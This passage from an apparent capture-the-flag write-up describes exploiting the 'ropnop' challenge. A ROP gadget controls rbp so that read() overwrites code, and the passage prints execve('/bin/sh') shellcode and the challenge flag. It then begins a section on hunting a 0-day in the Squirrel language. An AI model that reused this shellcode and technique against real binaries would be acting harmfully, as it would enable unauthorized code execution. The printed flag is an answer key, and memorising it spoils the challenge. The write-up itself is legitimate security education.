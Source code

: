 ```

The most obvious way to do that is by using the existing line:
```
read(0, buffer, 0x1337);
```
The idea is that if we can set `buffer` to a section of the executable, then we can return to that address and execute arbirary code. The buffer is given by `[rbp-0x10]`, so we just need to find a way to write to `rbp` and jump back here. Fortunately, we have just the ROP gadget we need slightly further down (anything after `ropnop` itself doesn't get its `RETN`s NOPped because the conditional check has changed):

```
134f: 5d        pop rbp   # actually happens as part of 41 5d = pop r13
1350: 41 5e     pop r14
1352: 41 5f     pop r15
1354: c3        retn
```

The return value of `read`, as it happens, is stored to `[rbp-0x18]`, so we cannot set `rbp` to be any earlier than `startAddress+0x18`. `r14` and `r15` will have to be modified as a consequence, but it doesn't really matter. Anyway, let's pick this value of `startAddress+0x18` for `rbp` (which means we need to jump to `startAddress+8`).

This seems simple enough, we have all our ingredients: the start address, a means to overwrite rbp, and a means to jump to where we want. The only concern left is what exactly we want to execute.

We go with the fairly basic syscall. We use [this searchable syscall table](https://filippo.io/linux-syscall-table/) to inform us how to call `execve`. We need `rax=0x3b`, `rdi` to be the filename, and `rsi` and `rdx` are argv and envp respectively and can be set to NULL. This gives us the following assembly:
```
# 08: 48 8d 3d 0b 00 00 00       lea rdi,[rip+0xb]  # 0x1a
# 0f: 6a 3b                      push 0x3b
# 11: 58                         pop rax
# 12: 48 31 f6                   xor rsi,rsi
# 15: 48 31 d2                   xor rdx,rdx
# 18: 0f 05                      syscall
# 1a: 2f 62 69 6e 2f 73 68 00    "bin/sh\0"
```

So that gives us our second payload `b'\x48\x8d\x3d\x0b\0\0\0\x6a\x3b\x58\x48\x31\xf6\x48\x31\xd2\x0f\x05/bin/sh\0'`, and injecting this via the second `read()` gives us the shell access we wanted. The resulting code can be seen in [ropnop.py](ropnop.py).

The flag is `CSCG{s3lf_m0d1fy1ng_c0dez!}`.

## Squirrel as a Service
The challenge here is to find a 0-day exploit in an existing, well-established scripting language called [Squirrel](https://en.wikipedia.org/wiki/Squirrel_(programming_language)). So unlike the previous challenges which were very self-contained, this one involved a lot of research, which included things like:
- Learning the Squirrel language itself and its nuances
- Understanding the functions included in the standard library and how they are grouped
```